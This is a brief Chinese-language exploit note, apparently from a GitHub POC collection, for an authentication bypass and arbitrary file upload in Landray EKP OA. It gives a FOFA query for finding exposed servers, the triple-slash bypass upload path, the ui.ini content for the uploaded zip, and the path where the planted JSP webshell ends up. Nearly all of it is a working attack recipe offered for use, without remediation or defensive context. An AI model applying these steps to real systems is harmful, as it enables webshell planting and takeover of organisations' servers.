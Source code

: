 
## 蓝凌EKP前台授权绕过导致文件上传


## fofa
```
app="Landray-OA系统"
```

访问路径/api///sys/ui/sys_ui_extend/sysUiExtend.do?method=upload其中路径需要api后面需要///不能变。

## poc
```
/api///sys/ui/sys_ui_extend/sysUiExtend.do?method=upload

```
![image](../../images/47bd374a-d072-46ab-824e-e23ef8d08a69.png)


## 文件上传
然后上传zip包需要有ui.ini文件内容如下
```
id=ZzzZname=testthumb=test

```
![image](../../images/1d6615f9-a98b-4747-a6a8-9e6bdd3218c0.png)

![image](../../images/1cb1a160-309f-44bb-b0d3-03e59b163258.png)

马会在/resource/ui-ext/ZzzZ/jmdyy.jsp
